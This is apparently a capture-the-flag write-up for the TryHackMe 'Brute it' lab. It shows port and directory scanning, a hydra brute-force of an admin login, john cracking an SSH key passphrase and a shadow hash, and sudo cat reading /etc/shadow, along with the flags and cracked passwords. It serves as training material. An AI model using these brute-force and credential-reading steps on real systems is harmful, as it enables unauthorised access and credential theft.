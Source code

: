 > Brute it

**export IP=10.10.172.147**

# Nmap

sudo nmap -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

# Gobuster

sudo gobuster dir -u http://10.10.172.147 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x txt,php,js,html,sql,bak,cgi,zip -o gobuster/initial

```
/admin (Status: 301)
```

And in the page-source of /admin we can find that john's username is admin.

# Cracking with hydra

hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -f

```
[80][http-post-form] host: 10.10.172.147   login: admin   password: xavier
```

# web flag

```
THM{brut3_f0rce_is_e4sy}
```

We got an id_rsa file but it requires password. Let's crack it using john.

john --wordlist=/usr/share/wordlists/rockyou.txt hash

```
rockinroll       (id_rsa)
```

ssh john@10.10.172.147 -i "id_rsa"

We are in as john!!

# user.txt

```
THM{a_password_is_not_a_barrier}
```

# Privilege Escalation

id

```
uid=1001(john) gid=1001(john) groups=1001(john),27(sudo)
```

sudo -l

```
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

LFILE=/root/root.txt
sudo cat "$LFILE"

# root.txt

```
THM{pr1v1l3g3_3sc4l4t10n}
```

# root password

LFILE=/etc/shadow
sudo cat "$LFILE"

root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::

Let's save this to root_hash file and crack it using john.

# root password

```
football
```